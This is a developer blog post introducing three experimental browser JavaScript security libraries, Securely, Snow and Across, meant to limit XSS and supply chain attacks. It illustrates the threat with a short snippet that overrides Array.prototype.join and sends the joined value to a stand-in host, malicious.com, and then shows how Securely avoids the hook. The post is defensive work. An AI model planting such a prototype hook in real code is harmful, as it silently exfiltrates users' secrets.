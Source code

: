```yaml
---
layout: page
title: My contribution attempt to the browser javascript supply chain attack problem
url: https://weizman.github.io/
date: 18/07/2021
description: Introducing Securely, Snow and Across to help fight browser javascript supply chain attacks
keywords: browser, javascript, supply chain attack, security, xss, securely, snow, across
---
```


## Introducing Securely 🔒, Snow ❄️ and Across ↔

> *tl;dr - Today I share my "side project" for the past year, three browser javascript security libraries that aim to perform as
platforms for creating web apps that are more resilient to and limiting of unwanted code execution such as XSS and javascript supply chain attacks:*

#### [Across ↔](https://github.com/weizman/across)

Across standard allows different scripts within the same web application to communicate with each other by passing messages between one another securely.

[🎬 Live Demo](https://weizman.github.io/across/demo/) | 
[📖 Technical explanation](https://github.com/weizman/across/wiki/Introducing-Across#across-technically-explained) | 
[⚙️ Installation and usage](https://github.com/weizman/across#install) | 
[👩🏽‍💻 Source Code](https://github.com/weizman/across) | 
[💪🏻 Motivation behind this project](https://github.com/weizman/across/wiki/Introducing-Across)

#### [Snow ❄️](https://github.com/weizman/snow)

Snow aspires to standardize how to recursively own newborn windows within a browser webpage, from the context of the webpage itself.

[🎬 Live Demo](https://weizman.github.io/snow/demo/) | 
[📖 Technical explanation](https://github.com/weizman/snow/wiki/Introducing-Snow#why-snow-solves-a-non-trivial-problem) | 
[⚙️ Installation and usage](https://github.com/weizman/snow#usage) | 
[👩🏽‍💻 Source Code](https://github.com/weizman/snow) | 
[💪🏻 Motivation behind this project](https://github.com/weizman/snow/wiki/Introducing-Snow)

#### [Securely 🔒](https://github.com/weizman/securely)

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app.

[🎬 Live Demo](https://weizman.github.io/securely/demo/) | 
[📖 Technical explanation](https://github.com/weizman/securely#securely-technically-explained-whats-the-s-suffix-for) | 
[⚙️ Installation and usage](https://github.com/weizman/securely#usage) | 
[👩🏽‍💻 Source Code](https://github.com/weizman/securely)

**`Across` is built on top of `Snow`. Both `Across` and `Snow` are built on top of `Securely`.**

**⚠️ These technologies are currently experimental!**

## The [Supply Chain Attacks](https://www.google.com/search?q=javascript+website+supply+chain+attack) Problem

In general, the ability to execute unwanted code within a website is still a major problem.
Doing so with XSS is less common these days, but with infection of the supply chain web apps which is a rising issue, it's still very much possible.

To prevent such attacks, there are many different areas to defend. 
In my attempt, I focus on the real time prevention in the browser. 
Or in other words, what can attackers do once they successfully run within the website in the browser, and what I can do to make it harder for them?

### [Securely 🔒](https://github.com/weizman/securely)

One thing attackers can do is to use the native option of javascript to override builtin functionalities and by that potentially have
the website legit code go through their malicious hooks and leak sensitive information:

```javascript
/* supply chain attack */

const desc = Object.getOwnPropertyDescriptor(Array.prototype, 'join');
const join = desc.value;
desc.value = function(separator) {
    const ret = join.call(this, separator);
    fetch('https://malicious.com/steal-key?key=' + ret);
    return ret;
}
Object.defineProperty(Array.prototype, 'join', desc);
```

```javascript
/* website legit code */

function constructKey() {
  const keyParts = getSecretKeyParts();
  // this goes through attacker's hook!
  const key = keyParts.join('-');
  return key;
}
```

To that problem there are different approachs that are currently being pushed on.

For example, the approach taken by [Consensys](https://github.com/consensys) [MetaMask](https://github.com/metamask)'s [LavaMoat](https://github.com/lavamoat)
which runs on [Endo](https://github.com/endojs)'s [SES](https://github.com/endojs/endo) technology is the lockdown method, which is generally 
to freeze the ability to apply such hooks in the first place to prevent such attacks exactly.

**A lax alternative to this approach is [Securely 🔒](https://github.com/weizman/securely).**

Securely permits the web app and all js code that runs within it to apply such hooks out of belief that
these hooks are a legitimate and unseparatable part of the service provided by many third party vendors, especially in websites.

Instead, **Securely allows you to declare what native functionalities you might need to use in your web app** that you want to avoid any potential hooks
and **grants you exculsive access to them when needed:**

```javascript
const secure = require('@weizman/securely');
const securely = secure(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        'Array': ['includes', 'push', 'join'],
    }
});
```

So to go back to the example above, if you need to use `Array.prototype.join` native API to safely construct your key, but still want to allow legitimate
js code in your website to hook it for whatever reason, you can use Securely to achieve that:

```javascript
/* website legit code using Securely */

function constructKey() {
  const keyParts = getSecretKeyParts();
  // this does NOT goes through attacker's hook!
  const key = securely(() => keyParts.joinS('-')); // 'S' stands for Securely!
  return key;
}
```

This infect allows you to avoid potential hooks or go through them when needed, depends on the usecase, which can be very affective 
against supply chain attacks when executing sensitive operations.

> *To dive into Securely, the source code, how to install and use, how and why it works and designed*
> *the way it is and to see a live demonstration of how it works refer to the resources [listed above](#securely-)*

